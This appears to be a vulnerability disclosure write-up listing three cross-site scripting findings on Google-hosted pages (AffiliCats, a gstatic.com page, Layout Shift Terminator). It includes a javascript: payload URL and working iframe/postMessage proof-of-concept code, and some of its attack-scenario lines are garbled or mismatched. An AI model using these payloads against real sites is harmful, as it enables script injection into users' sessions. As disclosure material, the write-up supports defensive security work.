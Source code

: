 ### XSS on AffiliCats

**URL:** <https://googlechromelabs.github.io/affilicats/forward.html?url=javascript:alert(window.origin)>

The "AffiliCats" website has an open redirect that sets `document.location.href` with the URL param called `url` this allows navigating to `javascript:`

```js
(f = new URLSearchParams(document.location.search)),
  (g = new URL(f.get("url")));
```

### Attack scenario

An attacker controlled website gains the "cutest cats online"

### XSS on GSTATIC (WAI, Awarded for individual impacts reported)

```js
let payload = `
alert(window.origin);
`;

let f = document.createElement("iframe");
f.src =
  "https://www.gstatic.com/alkali/43ecc24c54630568577e5fdcbc826f3153491684.html";
document.body.appendChild(f);
setTimeout(() => {
  f.contentWindow.postMessage(
    {
      resourcePaths: {
        jsPath: "data:text/html," + encodeURIComponent(payload),
      },
    },
    "*",
  );
}, 2000);
```

### Attack scenario

Leaking connection and DNS timings for gstatic.com resources via the performance API.
Sometimes it's used as an embed.

### XSS on Layout Shift Terminator

**URL:** <https://googlechromelabs.github.io/layout-shift-terminator/>

Since the page allows embedding and it's possible to navigate nested iframes.
It's possible to race the postMessage bypassing the `event.source === iframe.contentWindow` check.
This could also be done by abusing the chromium max iframe limit with the null contentWindow trick.
